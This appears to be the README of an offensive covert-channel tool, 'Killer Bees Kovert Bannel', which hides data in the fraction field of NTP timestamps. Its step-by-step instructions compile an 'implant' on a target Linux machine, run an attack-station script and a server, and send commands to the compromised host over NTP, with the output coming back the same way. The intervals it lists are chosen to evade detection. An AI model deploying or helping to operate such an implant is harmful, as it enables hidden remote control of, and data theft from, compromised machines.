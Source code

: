 Killer Bees Kovert Bannel

Hijack NTP packets
Use the fraction portion of the time-stamp
32-bits per packet = 4 bytes
Normal interval = 64 seconds
Aggressive interval = 8 seconds
Blendy interval = 1 hour
invisible interval = 1 day lol

HOW TO USE:

1. Compile C code on target machine (Code is designed for linux)
    - ```gcc implant.c -o implant```
2. Ensure Python is installed and install NTP python library on Attack Station
    - ```pip install ntplib```
3. Run both python scripts in separate terminals on Attack Station
    - ```sudo python3 attackbox.py```
    - ```sudo python3 server.py```
4. Run C Code on target machine
    - ```./implant <timeInterval(s)> <Target IP> <Attack IP>```
5. Once you receive "Type your message" on attackbox terminal, input your desired command in and press enter
6. Receive output on server terminal
7. Be Happy :) <--- He has lipstic on VSCode